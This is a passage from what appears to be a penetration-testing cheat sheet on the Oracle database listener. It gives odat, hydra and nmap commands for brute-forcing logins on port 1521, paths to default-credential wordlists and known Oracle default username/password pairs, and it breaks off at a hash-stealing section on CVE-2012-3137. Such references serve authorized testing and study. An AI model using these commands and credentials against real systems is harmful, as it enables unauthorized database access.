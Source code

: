 ```bash
#Odat
odat passwordguesser -s $SERVER -d $SID
odat passwordguesser -s $SERVER -d $SID -p 1521 --accounts-files users.txt pass.txt

#Hydra
hydra -L /tmp/user.txt -P /tmp/pass.txt -s 1521 $SERVER oracle /$SID

#Nmap
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=$SID $SERVER
```

Here are **mixed** wordlists taken from [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener) and some interesting other wordlists

```bash
# User/Password list
cat /usr/share/nmap/nselib/data/oracle-default-accounts.lst

# User Password list
cat /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt

# User/Password list
cat /usr/share/oscanner/accounts.default 
```

{% file src="../../../.gitbook/assets/pass-oracle.txt" %}

{% file src="../../../.gitbook/assets/users-oracle.txt" %}
{% endtab %}

{% tab title="Default Passwords" %}
Below are some of the default passwords associated with Oracle:

* **DBSNMP/DBSNMP**  —  Intelligent Agent uses this to talk to the db server (its some work to change it)&#x20;
* **SYS/CHANGE\_ON\_INSTALL**  —  Default sysdba account before and including Oracle v9, as of version 10g this has to be different!&#x20;
* **PCMS\_SYS/PCMS\_SYS**  —  Default x account&#x20;
* **WMSYS/WMSYS**  —  Default x account&#x20;
* **OUTLN/OUTLN**  —  Default x account&#x20;
* **SCOTT/TIGER**  —  Default x account

Other default passwords can be found [here ](http://www.petefinnigan.com/default/oracle\_default\_passwords.htm)and [here](https://cirt.net/passwords?vendor=Oracle)
{% endtab %}

{% tab title="Steal/Dump Passwords" %}
### Stealremotepwds - CVE-2012-3137

{% hint style="info" %}
**The versions 11.1.0.6, 11.1.0.7, 11.2.0.1, 11.2.0.2, and 11.2.0.3 are vulnerable** to this technique
{% endhint %}

Using nmap we can retreive intercept the initial traffic during authorization phase and extract a hash to bruteforce it offline:
